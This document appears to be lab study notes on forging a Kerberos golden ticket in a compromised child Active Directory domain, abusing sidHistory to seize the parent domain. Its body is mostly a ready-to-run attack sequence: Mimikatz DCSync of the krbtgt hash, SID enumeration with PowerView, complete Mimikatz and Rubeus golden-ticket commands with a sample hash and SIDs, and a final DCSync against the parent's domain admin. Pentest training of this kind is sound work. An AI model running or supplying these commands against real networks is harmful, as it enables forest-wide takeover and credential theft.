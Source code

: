 Forging golden tickets and using them to access resources
on parent domain from child domain
You have Repuplication priv or admin on child domain

This attack allows for the compromise of a parent domain once the child domain has been compromised. Within the same AD forest, the [sidHistory](https://docs.microsoft.com/en-us/windows/win32/adschema/a-sidhistory) property is respected due to a lack of [SID Filtering](https://www.serverbrain.org/active-directory-2008/sid-history-and-sid-filtering.html) protection. SID Filtering is a protection put in place to filter out authentication requests from a domain in another forest across a trust. Therefore, if a user in a child domain that has their sidHistory set to the `Enterprise Admins group` (which only exists in the parent domain), they are treated as a member of this group, which allows for administrative access to the entire forest. In other words, we are creating a Golden Ticket from the compromised child domain to compromise the parent domain. In this case, we will leverage the `SIDHistory` to grant an account (or non-existent account) Enterprise Admin rights by modifying this attribute to contain the SID for the Enterprise Admins group, which will give us full access to the parent domain without actually being part of the group.

To perform this attack after compromising a child domain, we need the following:

- The KRBTGT hash for the child domain
- The SID for the child domain
- The name of a target user in the child domain (does not need to exist!)
- The FQDN of the child domain.
- The SID of the Enterprise Admins group of the root domain.
- With this data collected, the attack can be performed with Mimikatz.
```powershell-session
mimikatz # lsadump::dcsync /user:LOGISTICS\krbtgt
```

```powershell-session
PS C:\htb> Get-DomainSID

S-1-5-21-2806153819-209893948-922872689
```

Next, we can use `Get-DomainGroup` from PowerView to obtain the SID for the Enterprise Admins group in the parent domain. We could also do this with the [Get-ADGroup](https://docs.microsoft.com/en-us/powershell/module/activedirectory/get-adgroup?view=windowsserver2022-ps) cmdlet with a command such as `Get-ADGroup -Identity "Enterprise Admins" -Server "INLANEFREIGHT.LOCAL"`.

#### Obtaining Enterprise Admins Group's SID using Get-DomainGroup

Attacking Domain Trusts - Child -> Parent Trusts - from Windows

```powershell-session
PS C:\htb> Get-DomainGroup -Domain INLANEFREIGHT.LOCAL -Identity "Enterprise Admins" | select distinguishedname,objectsid

distinguishedname                                       objectsid                                    
-----------------                                       ---------                                    
CN=Enterprise Admins,CN=Users,DC=INLANEFREIGHT,DC=LOCAL S-1-5-21-3842939050-3880317879-2865463114-519
```
At this point, we have gathered the following data points:

- The KRBTGT hash for the child domain: `9d765b482771505cbe97411065964d5f`
- The SID for the child domain: `S-1-5-21-2806153819-209893948-922872689`
- The name of a target user in the child domain (does not need to exist to create our Golden Ticket!): We'll choose a fake user: `hacker`
- The FQDN of the child domain: `LOGISTICS.INLANEFREIGHT.LOCAL`
- The SID of the Enterprise Admins group of the root domain: `S-1-5-21-3842939050-3880317879-2865463114-519`

Before the attack, we can confirm no access to the file system of the DC in the parent domain.
#### Creating a Golden Ticket with Mimikatz
```powershell-session
mimikatz # kerberos::golden /user:hacker /domain:LOGISTICS.INLANEFREIGHT.LOCAL /sid:S-1-5-21-2806153819-209893948-922872689 /krbtgt:9d765b482771505cbe97411065964d5f /sids:S-1-5-21-3842939050-3880317879-2865463114-519 /ptt
```

or using rubueas
```powershell-session
PS C:\htb>  .\Rubeus.exe golden /rc4:9d765b482771505cbe97411065964d5f /domain:LOGISTICS.INLANEFREIGHT.LOCAL /sid:S-1-5-21-2806153819-209893948-922872689  /sids:S-1-5-21-3842939050-3880317879-2865463114-519 /user:hacker /ptt
```
#### Confirming a Kerberos Ticket is in Memory Using klist

```powershell-session
PS C:\htb> klist

Current LogonId is 0:0xf6462

Cached Tickets: (1)

#0>     Client: hacker @ LOGISTICS.INLANEFREIGHT.LOCAL
        Server: krbtgt/LOGISTICS.INLANEFREIGHT.LOCAL @ LOGISTICS.INLANEFREIGHT.LOCAL
        KerbTicket Encryption Type: RSADSI RC4-HMAC(NT)
        Ticket Flags 0x40e00000 -> forwardable renewable initial pre_authent
        Start Time: 3/28/2022 19:59:50 (local)
        End Time:   3/25/2032 19:59:50 (local)
        Renew Time: 3/25/2032 19:59:50 (local)
        Session Key Type: RSADSI RC4-HMAC(NT)
        Cache Flags: 0x1 
```
#### Listing the Entire C: Drive of the Domain Controller

```powershell-session
PS C:\htb> ls \\academy-ea-dc01.inlanefreight.local\c$
```

Finally, we can test this access by performing a DCSync attack against the parent domain, targeting the `lab_adm` Domain Admin user.

```powershell-session
mimikatz # lsadump::dcsync /user:INLANEFREIGHT\lab_adm /domain:INLANEFREIGHT.LOCAL
```
